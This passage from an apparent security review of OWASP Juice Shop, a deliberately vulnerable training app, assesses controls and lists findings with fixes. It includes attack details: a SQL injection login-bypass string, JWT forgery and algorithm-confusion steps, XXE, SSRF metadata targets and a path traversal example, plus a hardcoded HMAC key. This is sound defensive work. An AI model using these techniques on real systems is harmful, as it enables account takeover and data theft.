The absence of a CSP means there is no browser-enforced script execution allowlist. Inline scripts, `<script src>` from arbitrary origins, and `eval()` calls all execute without restriction. The profile-page CSP demonstrates the intended pattern but is itself exploitable — injecting a space and a directive into `profileImage` overrides the CSP value, a classic CSP injection.

**Relevant findings**

- [F-011](#f-011) — Missing CSP removes the browser's last XSS containment layer.

<a id="783-csrf-protection"></a>
#### 7.8.3 CSRF Protection

**Status:** 🔴 Missing — No CSRF tokens, no SameSite cookie flag; wildcard CORS makes cross-origin state-mutation requests trivially possible.

No CSRF middleware (`csurf`, `lusca`, or equivalent) is present in `server.ts`. The session token is set in a cookie (`token=`) by `cookieParser` but without a `SameSite` attribute. The `Authorization: Bearer` header approach for API calls does require a custom header (mitigating form-based CSRF), but the cookie is sent on all same-origin navigations.

**Security assessment**

Credentialed cross-origin form submissions can reach the Juice Shop API because the CORS wildcard allows them and the `token` cookie carries no `SameSite` restriction. State-mutating endpoints (basket modifications, order placement, user data updates) are all reachable without a CSRF token.

**Relevant findings**

- [F-011](#f-011) — Missing CSP and CORS wildcard combine to remove both the isolation and script-execution controls that CSRF protection relies on.

<a id="784-security-headers"></a>
#### 7.8.4 Security Headers

**Status:** 🟡 Partial — Helmet provides `frameguard`, `noSniff`, and `featurePolicy`; XSS filter disabled; HSTS absent (HTTP-only default).

Helmet is applied in `server.ts` with `frameguard`, `noSniff`, and a `featurePolicy` limiting the payment API. `xssFilter` is commented out. No `Strict-Transport-Security` header is set — the application runs on HTTP by default.

**Security assessment**

The present Helmet headers provide basic clickjacking protection and MIME sniffing prevention. The disabled XSS filter and absent HSTS remove meaningful browser controls. HSTS absence is expected given the HTTP-only default configuration, but means any deployment that adds HTTPS without also adding HSTS still sends tokens over potentially downgradeable connections.

**Relevant findings**

- [F-011](#f-011) — Missing CSP is the dominant browser-controls gap; the disabled XSS filter compounds it.

### 7.9 Cryptography Secrets and Data Protection

**Verdict:** 🔴 Unsafe — MD5 password hashing with no salt; committed 1024-bit RSA private key; hardcoded HMAC and cookie secrets; TLS not configured in source.

**Controls covered:** [7.9.1 Cryptographic Key Management](#791-cryptographic-key-management) · [7.9.2 Password Storage (Hashing Algorithm)](#792-password-storage-hashing-algorithm) · [7.9.3 Transport Encryption (TLS)](#793-transport-encryption-tls)

**Implemented controls:** RS256 JWT signing (compromised key), SHA256 HMAC for deluxe token, HTTPS for outbound calls to external services.

**Assessment:** Every cryptographic primitive in use is either compromised (committed key), weak (MD5, 1024-bit RSA), or absent (inbound TLS). This is by design for the training platform, but the combination means there is no viable cryptographic boundary anywhere in the stack.

<a id="791-cryptographic-key-management"></a>
#### 7.9.1 Cryptographic Key Management

**Status:** 🔴 Unsafe — Four distinct secrets are hardcoded in source and committed to the public repository.

⚠ **Anti-pattern:** Secrets hardcoded in source

`lib/insecurity.ts` holds two hardcoded secrets: the RSA private key PEM at line 23 and the HMAC key `pa4qacea4VK9t9nGv7yZtwmj` at line 44. `server.ts:289` uses `cookieParser('kekse')` with a hardcoded cookie secret. `encryptionkeys/premium.key` is committed to the repository with a plaintext premium decryption key.

**Security assessment**

All four secrets are in the public GitHub repository. Anyone who has cloned the repo — which is any Juice Shop operator or CTF participant — holds the full key material. Key rotation is not operationally possible without a code change and redeploy. The RSA key is additionally weak at 1024 bits.

**Relevant findings**

- [F-005](#f-005) — Committed RSA private key in source enables JWT forgery for any account.
- [F-006](#f-006) — Hardcoded RSA private key in source code (confirmed duplicate finding from STRIDE analysis).

<a id="792-password-storage-hashing-algorithm"></a>
#### 7.9.2 Password Storage (Hashing Algorithm)

**Status:** 🔴 Unsafe — MD5 used for password hashing with no salt; standard rainbow tables crack all common passwords in seconds.

Passwords are hashed before storage using `security.hash()` at `lib/insecurity.ts:43`. The algorithm is `crypto.createHash('md5').update(data).digest('hex')` — a single MD5 invocation with no salt and no work factor.

The hashing call that breaks offline resistance is at this location:

```ts
// `lib/insecurity.ts:43`
export const hash = (data: string): string =>
  crypto.createHash('md5').update(data).digest('hex')
```

**Security assessment**

MD5 is a message digest function, not a password hash. It has no salt (identical passwords produce identical hashes, enabling rainbow tables), no work factor (hundreds of millions of hashes per second on commodity GPU), and is cryptographically broken for collision resistance. Any dump obtained via SQL injection yields recoverable plaintext for all standard passwords.

**Relevant findings**

- [F-020](#f-020) — MD5 password hashing enables immediate offline credential recovery from any database dump.
- [F-003](#f-003) — SQL injection in the login path provides the dump vector that the weak hashing algorithm magnifies.

<a id="793-transport-encryption-tls"></a>
#### 7.9.3 Transport Encryption (TLS)

**Status:** 🟡 Partial — Application runs HTTP on port 3000 by default; TLS termination expected externally; no TLS certificates in source.

`config/default.yml` configures `server.port: 3000` without TLS. The Express server in `server.ts` is a plain HTTP server. HTTPS is used for outbound requests to external services. Production deployments are expected to terminate TLS at a reverse proxy or load balancer.

**Security assessment**

TLS absence in the default configuration means tokens, credentials, and session cookies are transmitted in plaintext on any deployment that does not add an external TLS terminator. The `token` cookie has no `Secure` flag, so it is transmitted on HTTP connections. The absence of HSTS in the Helmet configuration means there is no browser-enforced HTTPS upgrade.

**Relevant findings**

- [F-019](#f-019) — Token stored in localStorage and transmitted as Bearer header has no transport security guarantee in the default configuration.

### 7.10 File Parser and Outbound Request Controls

**Verdict:** 🔴 Unsafe — XXE via `noent: true` in XML parser configuration; SSRF via unvalidated profile image URL; incomplete ZIP path traversal check.

**Controls covered:** [7.10.1 XML Parser Hardening (libxmljs2)](#7101-xml-parser-hardening-libxmljs2) · [7.10.2 SSRF Prevention](#7102-ssrf-prevention) · [7.10.3 Archive Extraction Safety (unzipper)](#7103-archive-extraction-safety-unzipper) · [7.10.4 Server-Side Code Evaluation (notevil sandbox)](#7104-server-side-code-evaluation-notevil-sandbox)

**Implemented controls:** multer file size limit on uploads, `vm.createContext()` timeout for sandboxed evaluation, SSRF challenge-detection logic (not a security control).

**Assessment:** Four distinct unsafe file-parsing and outbound-request vectors are present in the upload and B2B subsystems. The file upload endpoint was added without security review of the accepted parser configurations — each accepted file type has at least one exploitable parser option enabled.

<a id="7101-xml-parser-hardening-libxmljs2"></a>
#### 7.10.1 XML Parser Hardening (libxmljs2)

**Status:** 🔴 Unsafe — `noent: true` option enables external entity processing; uploaded XML files can read arbitrary files from the container filesystem.

`routes/fileUpload.ts:83` parses uploaded XML files via `libxmljs2` inside a `vm.createContext()` sandbox. The parse call is `libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })`. The `noent: true` option instructs the parser to resolve `&entity;` references including `SYSTEM` external entity references.

**Security assessment**

External entity processing (`noent: true`) is explicitly enabled — this is the standard XXE configuration. An attacker uploads an XML file with a `SYSTEM` entity referencing `/etc/passwd` or any other file readable by user `65532` in the container. The parsed entity value is returned in the parse result and reflected in the response. The distroless container limits the attack surface but does not prevent XXE — the app user can read files it owns.

**Relevant findings**

- [F-016](#f-016) — XXE via external entity processing in uploaded XML files enables file read from the container filesystem.

<a id="7102-ssrf-prevention"></a>
#### 7.10.2 SSRF Prevention

**Status:** 🔴 Unsafe — Profile image URL is fetched without scheme or host validation; any URL reachable from the container is accessible.

`routes/profileImageUrlUpload.ts:24` fetches a user-supplied URL with `const response = await fetch(url)` where `url = req.body.imageUrl`. No URL allowlist, no scheme restriction, and no host validation is applied before the fetch. The route is protected by `security.isAuthorized()` (authentication required).

**Security assessment**

Any URL reachable from the container is fetchable — internal services, AWS EC2 metadata at `http://169.254.169.254/`, the application itself (via `http://localhost:3000/`), and internal network hosts. The SSRF challenge-detection logic in the route records when the challenge is solved but does not block the request. Authentication requirement limits the attack to authenticated users, but the JWT forgery in §7.3 removes that constraint for an attacker with the private key.

**Relevant findings**

- [F-022](#f-022) — SSRF via unvalidated profile image URL enables server-side HTTP requests to arbitrary internal hosts.

<a id="7103-archive-extraction-safety-unzipper"></a>
#### 7.10.3 Archive Extraction Safety (unzipper)

**Status:** 🟡 Partial — Path check is present but uses `String.includes()` which is bypassable; the destination directory is not strictly enforced.

`routes/fileUpload.ts:44-57` extracts ZIP complaint archives to `uploads/complaints/`. The path traversal check is `absolutePath.includes(path.resolve('.'))` — it verifies that the resolved extraction path contains the current working directory string somewhere in it.

**Security assessment**

The `includes()` check is insufficient — a path like `/app/uploads/complaints/../../../app/ftp/legal.md` resolves to a path outside `uploads/complaints/` while still containing the CWD string. The CTF challenge `fileWriteChallenge` explicitly targets this weakness to write to `ftp/legal.md`. A correct check uses `path.resolve()` on both sides and verifies that the target path begins with the allowed prefix.

**Relevant findings**

- [F-030](#f-030) — Path traversal via archive extraction allows writing files outside the intended upload directory.

<a id="7104-server-side-code-evaluation-notevil-sandbox"></a>
#### 7.10.4 Server-Side Code Evaluation (notevil sandbox)

**Status:** 🔴 Unsafe — `notevil` is an incomplete sandbox with known escape paths; user-controlled expressions execute with full Node\.js process privileges.

`routes/b2bOrder.ts:26` evaluates B2B order line data via `vm.runInContext('safeEval(orderLinesData)', sandbox)` where `orderLinesData` is sourced from the request body (either JSON `orderLinesData` field or the body itself for non-JSON requests). `notevil@1.3.3` is the safe-eval implementation.

**Security assessment**

`notevil` is a best-effort sandbox, not a security boundary. Multiple escape paths are documented in the project's own issues. `vm.runInContext()` provides a second sandboxing layer but `notevil` bypasses can reach the outer VM context via prototype chain manipulation. Arbitrary code execution in the Node\.js process is the consequence — file system access, environment variable exfiltration, internal network calls.

**Relevant findings**

- [F-007](#f-007) — JavaScript sandbox escape via notevil enables arbitrary server-side code execution on the B2B order endpoint.
- [F-023](#f-023) — CPU exhaustion via unbounded safeEval evaluation enables denial of service without code execution.

### 7.11 Operations Runtime and Supply Chain Controls

**Verdict:** 🟡 Partial — Container infrastructure is well-hardened (distroless, non-root, multi-stage); dependency management is weak (unmaintained packages, no automated update tooling); observability endpoints are unauthenticated.

**Controls covered:** [7.11.1 Container Security](#7111-container-security) · [7.11.2 Dependency Vulnerability Management](#7112-dependency-vulnerability-management) · [7.11.3 CI/CD Pipeline Security](#7113-cicd-pipeline-security) · [7.11.4 Observability and Logging](#7114-observability-and-logging) · [7.11.5 Rate Limiting](#7115-rate-limiting)

**Implemented controls:** Docker distroless image (`gcr.io/distroless/nodejs24-debian13`), non-root container user (`65532`), multi-stage build, GitHub Actions with pinned commit SHAs, CodeQL analysis, Morgan HTTP access logging, Prometheus metrics, `express-rate-limit` on password reset and 2FA endpoints, CycloneDX SBOM.

**Assessment:** The container runtime hardening is a genuine positive — distroless, non-root, and multi-stage are all correctly applied. The supply chain controls (pinned SHAs, CodeQL) are above average for open-source projects. The dependency management gap (no Dependabot/Renovate, unmaintained packages with known vulnerabilities) and the unauthenticated observability endpoints are the primary weaknesses in this layer.

<a id="7111-container-security"></a>
#### 7.11.1 Container Security

**Status:** 🟢 Adequate — Distroless base image, non-root execution, and multi-stage build are correctly applied; `--unsafe-perm` during build is a minor exception.

The Dockerfile uses `gcr.io/distroless/nodejs24-debian13` as the runtime base, eliminating shell, package manager, and most system utilities from the final image. A multi-stage build separates the npm install environment from the runtime. `USER 65532` (nonroot) ensures the process does not run as root. `npm install --unsafe-perm` in the build stage allows postinstall scripts elevated privileges during build only, not at runtime.

**Security assessment**

Container hardening is the strongest layer in the security architecture. Distroless limits post-exploitation options significantly — no shell means no interactive RCE sessions even after a code execution exploit. Non-root prevents writes to system paths. The `--unsafe-perm` flag in the build stage is acceptable for a build-only stage but should be removed once confirmed unnecessary.

**Relevant findings**

- No findings routed to this control — container hardening passes the assessment.

<a id="7112-dependency-vulnerability-management"></a>
#### 7.11.2 Dependency Vulnerability Management

**Status:** 🟠 Weak — `express-jwt@0.1.3`, `jsonwebtoken@0.4.0`, `marsdb@0.6.11`, and `notevil@1.3.3` are intentionally outdated or unmaintained; no automated dependency update tooling detected.

`package.json` declares 61 production dependencies. Key packages by security relevance: `express-jwt@0.1.3` (pre-CVE-2020-15084), `jsonwebtoken@0.4.0` (2014, lacks algorithm enforcement), `marsdb@0.6.11` (unmaintained since 2017), `notevil@1.3.3` (incomplete sandbox), `libxmljs2@0.37.0` (C bindings, CVE history), `unzipper@0.9.15` (path traversal risk). CycloneDX SBOM is generated at build time. No Dependabot or Renovate configuration found in `.github/`.

**Security assessment**

The outdated dependencies are intentional for CTF purposes — each represents a class of real-world vulnerability. For a production system, the absence of automated dependency update tooling means vulnerabilities accumulate without visibility. The CycloneDX SBOM generation is a positive signal for SCA tooling integration.

**Relevant findings**

- [F-002](#f-002) — `express-jwt@0.1.3` vulnerable to CVE-2020-15084 alg:none bypass.
- [F-007](#f-007) — `notevil@1.3.3` has known sandbox escape paths.

<a id="7113-cicd-pipeline-security"></a>
#### 7.11.3 CI/CD Pipeline Security

**Status:** 🟢 Adequate — GitHub Actions workflows pin action SHAs; CodeQL analysis is configured; `npm install --ignore-scripts` avoids postinstall execution in CI.

GitHub Actions workflows in `.github/workflows/` use pinned commit SHAs for `actions/checkout` and `actions/setup-node`. CodeQL analysis is configured for JavaScript/TypeScript. The main CI pipeline runs `npm install --ignore-scripts`, preventing postinstall scripts from executing during dependency resolution. Container images are published to Docker Hub with versioned tags.

**Security assessment**

Supply chain hardening for the CI/CD layer is well-implemented. Pinned SHAs prevent dependency substitution attacks on the action runners. The `lock.yml` workflow grants `pull-requests: write` — appropriate scope. The main exposure is that the published container image inherits all the intentional application vulnerabilities, which is expected for this training platform.

**Relevant findings**

- No findings routed to this control — CI/CD pipeline security passes the assessment.

<a id="7114-observability-and-logging"></a>
#### 7.11.4 Observability and Logging

**Status:** 🟠 Weak — Access logs and Prometheus metrics are unauthenticated and publicly browseable; no structured security event logging.

Morgan HTTP access logging writes to rotating files at `logs/access.log.%DATE%`. These logs are served unauthenticated at `/support/logs/` via `express.static`. Prometheus metrics are exposed at `/metrics` without authentication, returning challenge counts, basket statistics, and user metrics. No structured security audit logging framework is present — authentication events, admin actions, and file uploads generate no security log entries.

**Security assessment**

Unauthenticated access to access logs exposes IP addresses, user agent strings, and URL patterns including any sensitive query parameters. The `/metrics` endpoint discloses internal application state to any observer. The absence of security event logging means there is no audit trail for authentication attempts, privilege escalations, or data exfiltration — all of which are expected in this CTF context but would be critical gaps in a production deployment.

**Relevant findings**

- [F-017](#f-017) — No audit logging for authentication events means login bypass and brute-force attempts are not recorded.
- [F-018](#f-018) — No audit logging for data layer operations leaves injection exploitation undetected.

<a id="7115-rate-limiting"></a>
#### 7.11.5 Rate Limiting

**Status:** 🟠 Weak — Rate limiting applied to password reset and 2FA endpoints; login endpoint has no rate limit; all rate limits are bypassable via forged `X-Forwarded-For`.

`express-rate-limit` is applied to `/rest/user/reset-password` and `/rest/2fa/*` at 100 requests per 5 minutes. `POST /rest/user/login` — the primary brute-force target — has no rate limit. The rate-limit key generator uses `headers['X-Forwarded-For'] ?? ip` with `app.enable('trust proxy')` configured in `server.ts:346`, making the client IP attacker-controlled.

**Security assessment**

Rate limiting on password reset and 2FA verification is a positive control. The absence of rate limiting on the login endpoint is the primary gap. The `X-Forwarded-For` bypass (🟠 [F-025](#f-025) (Rate Limit Bypass via X Forwarded For Spoofing)) defeats all three rate-limited endpoints for any attacker who controls the request headers — which is any attacker sending requests directly rather than through a browser.

**Relevant findings**

- [F-025](#f-025) — Rate-limit bypass via forged `X-Forwarded-For` defeats password reset and 2FA rate limits.

### 7.12 Real-time and Not Applicable Controls

**Verdict:** 🔴 Missing — `Socket.IO` endpoint accepts connections from any client without authentication.

**Controls covered:** [7.12.1 WebSocket / `Socket.IO` Security](#7121-websocket-socketio-security)

**Implemented controls:** `Socket.IO` for real-time challenge-solve notifications. No authentication middleware on Socket\.IO connections.

**Assessment:** `Socket.IO` is present in this codebase — `lib/startup/registerWebsocketEvents.ts` registers real-time event handlers on the Socket\.IO server. GraphQL, gRPC, and AMQP are not present. The WebSocket endpoint requires a dedicated security assessment because it carries real-time application state to unauthenticated clients.

<a id="7121-websocket--socketio-security"></a>
#### 7.12.1 WebSocket / `Socket.IO` Security

**Status:** 🔴 Missing — No authentication middleware on Socket\.IO connections; any client can subscribe to challenge-solve notifications.

`lib/startup/registerWebsocketEvents.ts` registers Socket\.IO event handlers on the server-side Socket\.IO instance. The connection handler in `server.ts` mounts Socket\.IO without any handshake authentication or connection middleware. The `socket.io` client library is served at `ws://host:3000/socket.io/` and the namespace uses default configuration.

**Security assessment**

Any client that connects to the Socket\.IO endpoint receives real-time events including challenge-solve notifications. In a CTF context, this leaks which challenges other participants have solved and when. A production deployment with this pattern would expose real-time application state (order updates, notification events) to unauthenticated observers. The fix is a Socket\.IO middleware that validates a JWT on connection before allowing the client to join any namespace.

**Relevant findings**

- No specific T-NNN finding is routed to this control in the current assessment, but the pattern is consistent with [F-027](#f-027) (missing authorization checks on data access paths).

### 7.13 Defense-in-Depth Summary

The application achieves its training goal precisely because every security control that matters is absent, compromised, or intentionally broken. The one positive layer is the container runtime: distroless base image, non-root execution (`USER 65532`), and multi-stage build all reduce post-exploitation options. That hardening is irrelevant once arbitrary code execution is reached via the B2B `safeEval` endpoint or the file upload XXE vector — both of which require only an authenticated session, which is obtainable via the committed RSA private key.

Restoring layered defense requires fixing the four foundational control failures in sequence: (1) removing the committed private key and loading it from a secrets manager, which fixes JWT forgery and restores the authorization boundary; (2) replacing raw SQL queries in login and search with parameterized Sequelize calls, which closes the primary data-exfiltration and auth-bypass vectors; (3) migrating token storage from `localStorage` to an HttpOnly `SameSite=Strict` cookie via a Backend-for-Frontend, which eliminates token theft as the consequence of every XSS; and (4) replacing `notevil`/`eval` in the B2B and profile routes with a strict JSON schema parser, which removes the server-side code execution paths. Until those four repairs land, every other control — rate limiting, CORS configuration, CSP, CSRF tokens — operates on a foundation that can be bypassed at the JWT layer.

<!-- enriched:standard -->

---

## 8. Findings Register

Findings are grouped by severity (Critical → High → Medium → Low); within a tier they are ordered by attack vektor (Repo-Read → Internet-Anon → Internet-User → Victim-Required). Each finding is a card with the same fixed fields, in order: **Severity · Component · Location** → **Issue** → **Root cause** → **Evidence** → **Fix** → **Classification** (with external CWE / OWASP links).

**Risk Distribution:** 🔴 Critical: 7 · 🟠 High: 23 · 🟡 Medium: 6 · 🟢 Low: 2 · **Total findings: 38**
**STRIDE Coverage:** Spoofing: 4 · Tampering: 9 · Repudiation: 4 · Information Disclosure: 10 · Denial of Service: 4 · Elevation of Privilege: 7

**Findings index:**<br/>🔴 [F-001](#f-001) — Derived Password from OAuth Emai… (frontend/src/app/oauth/oauth.compone…<br/>🔴 [F-002](#f-002) — JWT Algorithm Confusion Missing algorithms Allowlist (lib/insecurity.ts…<br/>🔴 [F-003](#f-003) — SQL Injection (routes/login.ts:34)<br/>🔴 [F-004](#f-004) — SQL Injection (routes/search.ts:23)<br/>🔴 [F-005](#f-005) — Hardcoded RSA Private Key (lib/insecurity.ts:23)<br/>🔴 [F-006](#f-006) — Hardcoded RSA Private Key in Source Code lib/insecurity.ts:23<br/>🔴 [F-007](#f-007) — JavaScript Sandbox Escape via notevil (routes/b2bOrder.ts:23)<br/>🟠 [F-008](#f-008) — OAuth Implicit Flow Without PKC… (frontend/src/app/login/login.componen…<br/>🟠 [F-009](#f-009) — Missing Authentication on File Upload Endpoint (server.ts:309)<br/>🟠 [F-010](#f-010) — Stored XSS via Feedback Comment… (frontend/src/app/about/about.componen…<br/>🟠 [F-011](#f-011) — Missing Content Security Policy (frontend/src/)<br/>🟠 [F-012](#f-012) — DOM XSS via document… (frontend/src/app/data export/data export.compone…<br/>🟠 [F-013](#f-013) — DOM Based XSS v… (frontend/src/app/search result/search result.componen…<br/>🟠 [F-014](#f-014) — NoSQL Injection via $where Clause (routes/showProductReviews.ts:36)<br/>🟠 [F-015](#f-015) — NoSQL Injection via $where Clause (routes/trackOrder.ts:18)<br/>🟠 [F-016](#f-016) — XML External Entity Injection in File Upload routes/fileUpload.ts:83<br/>🟠 [F-017](#f-017) — No Audit Logging at Data Layer (models/index.ts:39)<br/>🟠 [F-018](#f-018) — Security Relevant Events Not Written to Audit Log routes/login.ts, rout…<br/>🟠 [F-019](#f-019) — Insecure Token Storage (frontend/src/app/Services/request.interceptor.t…<br/>🟠 [F-020](#f-020) — Weak Password Hashing (lib/insecurity.ts:43)<br/>🟠 [F-021](#f-021) — MD5 Used for Password Hashing lib/insecurity.ts:43<br/>🟠 [F-022](#f-022) — Server Side Request Forgery via Profile Image URL routes/profileImageUr…<br/>🟠 [F-023](#f-023) — CPU Exhaustion via Unbounded safeEval Requests (routes/b2bOrder.ts:23)<br/>🟠 [F-024](#f-024) — Event Loop Blocking via NoSQL $where Injection (routes/showProductRevie…<br/>🟠 [F-025](#f-025) — Rate Limit Bypass via X Forwarded For Spoofing server.ts:346<br/>🟠 [F-026](#f-026) — YAML Bomb Resource Exhaustion (routes/fileUpload.ts:117)<br/>🟠 [F-027](#f-027) — Client Side Only Admin Route Guard (frontend/src/app/app.guard.ts:54)<br/>🟠 [F-028](#f-028) — Missing Ownership Check on Review Update (routes/updateProductReviews.t…<br/>🟠 [F-029](#f-029) — NoSQL Mass Update Allows Any User to Overwrite All Reviews routes/updat…<br/>🟠 [F-030](#f-030) — Path Traversal via Archive Extraction (routes/fileUpload.ts:42)<br/>🟡 [F-031](#f-031) — Missing Audit Log for B2B Order Submission (routes/b2bOrder.ts)<br/>🟡 [F-032](#f-032) — No Audit Logging on File Upload Operations (routes/fileUpload.ts)<br/>🟡 [F-033](#f-033) — Stored XSS via L… (frontend/src/app/last login ip/last login ip.compone…<br/>🟡 [F-034](#f-034) — Docker build uses unsafe perm flag<br/>🟡 [F-035](#f-035) — Database Schema Exposure via sqlite_master Query (routes/search.ts:47)<br/>🟡 [F-036](#f-036) — Open Redirect Allowlist Bypass via URL Substring Match lib/insecurity.t…<br/>🟢 [F-037](#f-037) — GitHub Actions workflow grants pull requests:write permission<br/>🟢 [F-038](#f-038) — User Controlled UserId in Memory Creation (routes/memory.ts:15)

<a id="th-01"></a><a id="th-02"></a><a id="th-03"></a><a id="th-05"></a><a id="th-10"></a><a id="th-04"></a><a id="th-06"></a><a id="th-07"></a><a id="th-08"></a><a id="th-11"></a><a id="th-12"></a><a id="th-16"></a><a id="th-14"></a><a id="th-17"></a>

### 🔴 Critical (7)

<a id="t-005"></a><a id="f-005"></a>
#### F-005 · Hardcoded Cryptographic Key

**Severity:** 🔴 Critical — secret committed to the public source repo — extractable on clone, no prior access needed  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `lib/insecurity.ts`:23

**Issue:** `lib/insecurity.ts:23` embeds the full PEM-encoded RSA private key as a string literal. Any person who clones the repository — including unauthenticated GitHub visitors if the repo is public — obtains the key used to sign all JWT tokens. Using this key, an attacker calls `jwt.sign({ email: 'admin@juice-sh.op', role: 'admin' }, privateKey, { algorithm: 'RS256' })` locally to mint a token accepted by `isAuthorized()` on every protected endpoint, including `/b2b/v2/orders` which exposes the `vm.runInContext` sink. Possession of the private key allows offline minting of arbitrary JWT tokens, effectively voiding all JWT-based authentication across the application.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified — The RSA private key appears as a hard-coded multi-line string at `lib/insecurity.ts:23`, directly embedded in the TypeScript source file committed to version control.

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ❶ [M-009](#m-009) — Load RSA private key from an environment variable or secret manager in lib/insecurity.ts

**Classification:** Cryptographic Failures · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-006"></a><a id="f-006"></a>
#### F-006 · Hardcoded Credentials

**Severity:** 🔴 Critical — secret committed to the public source repo — extractable on clone, no prior access needed  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `lib/insecurity.ts`:23

**Issue:** The RSA private key used to sign all JWTs is hardcoded as a string literal in `lib/insecurity.ts` line 23 and is committed to the source repository. Any developer, CI pipeline participant, or attacker who gains read access to the repository can extract this key and sign arbitrary JWT payloads, impersonating any user or claiming admin role. The key is also used to derive the deluxe membership token via HMAC in `security.deluxeToken()` (line 152), meaning possession of this key breaks multiple security controls simultaneously. Any party with repository read access can sign forged JWTs for any user role, breaking authentication for the entire application.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified — Line 23 in `lib/insecurity.ts` contains a complete 1024-bit RSA PKCS#1 private key as a multiline string literal committed to source.

```typescript
// `lib/insecurity.ts:23`
import * as z85 from 'z85'

export const publicKey = fs ? fs.readFileSync('encryptionkeys/jwt.pub', 'utf8') : 'placeholder-public-key'
const privateKey = '[PEM PRIVATE KEY - REDACTED]

interface ResponseWithUser {
  status?: string
```

**Fix:** Move the credential out of source control into a secret store and rotate it → ❶ [M-010](#m-010) — Remove hardcoded private key and load it from environment or secrets manager at runtime

**Classification:** Cryptographic Failures · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-001"></a><a id="f-001"></a>
#### F-001 · Derived Password OAuth Emai…

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) — Angular SPA Frontend  ·  **Location:** `frontend/src/app/oauth/oauth.component.ts`:46

**Issue:** `oauth.component.ts:30` computes `const password = btoa(profile.email.split('').reverse().join(''))` — base64 of the reversed email string. This deterministic derivation means that any party who knows a target user's email address can compute the exact password used to register and authenticate that account via the `/api/Users` and login endpoints. The OAuth callback at line 46 submits this derived password to the standard password endpoint with `oauth: true`, effectively creating a parallel non-OAuth authentication path for every OAuth-registered user. An attacker knowing any user's email can authenticate as that user without OAuth interaction or knowledge of any real secret, bypassing the Google IdP entirely.

**Evidence:** ✓ verified — `btoa(profile.email.split('').reverse().join(''))` on line 30 and 46 of `oauth.component.ts` shows the password is deterministically derived from the email with no secret or randomness component.

```typescript
// `frontend/src/app/oauth/oauth.component.ts:46`
  }

  login (profile: any) {
    this.userService.login({ email: profile.email, password: btoa(profile.email.split('').reverse().join('')), oauth: true }).subscribe({
      next: (authentication) => {
        const expires = new `Date()`
        expires.setHours(`expires.getHours()` + 8)
```

**Fix:** ❷ [M-005](#m-005) — Replace deterministic email-derived password with server-side OAuth-account linking and randomized credentials

**Classification:** OAuth / OIDC Misconfiguration · [CWE-522](https://cwe.mitre.org/data/definitions/522.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-002"></a><a id="f-002"></a>
#### F-002 · Improper Verification of Cryptographic Signature

**Severity:** 🔴 Critical — elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `lib/insecurity.ts`:54

**Issue:** `lib/insecurity.ts:54` defines `isAuthorized()` as `expressJwt(({ secret: publicKey }) as any)` without specifying an `algorithms` allowlist. The `express-jwt` library, when not constrained to `algorithms: ['RS256']`, may accept tokens signed with `alg: none` (unauthenticated) or with HS256 using the RSA public key as the HMAC secret — both are publicly documented RS256→HS256 confusion attacks. An attacker obtains the public key (which is non-secret and typically distributed), crafts a token with `alg: HS256` and any desired claims (including `role: admin`), signs it with the public key as the HMAC secret, and submits it to `/b2b/v2/orders`. The `isAuthorized()` guard accepts the token, granting access to the B2B order endpoint as any user. An unauthenticated attacker forges a valid JWT for any user identity, bypassing the `/b2b/v2` authentication guard entirely and gaining access to the RCE-capable B2B order endpoint.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified — `expressJwt` at line 54 accepts only `secret` without `algorithms`, leaving algorithm negotiation to the library default which is permissive toward HS256 and potentially `alg:none`.

```typescript
// `lib/insecurity.ts:54`
  return str
}

export const isAuthorized = () => expressJwt(({ secret: publicKey }) as any)
export const denyAll = () => expressJwt({ secret: '' + `Math.random()` } as any)
export const authorize = (user = {}) => jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
export const verify = (token: string) => token ? (jws.verify as ((token: string, secret: string) => boolean))(token, publicKey) : false
```

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ❶ [M-006](#m-006) — Pin expressJwt to algorithms: ['RS256'] in lib/insecurity.ts

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-003"></a><a id="f-003"></a>
#### F-003 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) — Express Backend API  ·  **Location:** `routes/login.ts`:34

**Issue:** `req.body.email` flows unescaped into `models.sequelize.query()` at `routes/login.ts:34`. The full query is `SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`. Submitting `admin@juice-sh.op'--` as the email short-circuits the password check and returns the admin row. The query executes with `{ plain: true }` so the first matching row — the seeded admin account — is returned directly, producing a valid JWT with `role=admin`. Unauthenticated attacker gains admin-level JWT and full application access without credentials.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterisation or schema validation.

**Evidence:** ✓ verified — `routes/login.ts:34` calls `models.sequelize.query()` with a template literal that directly embeds `req.body.email` without parameterization.

```typescript
// `routes/login.ts:34`

  return (req: Request, res: Response, next: NextFunction) => {
    verifyPreLoginChallenges(req) // vuln-code-snippet hide-line
    models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`, { model: UserModel, plain: tr
      .then((authenticatedUser) => { // vuln-code-snippet neutral-line loginAdminChallenge loginBenderChallenge loginJimChallenge
        const user = utils.queryResultToJson(authenticatedUser)
        if (user.data?.id && user.data.totpSecret !== '') {
```

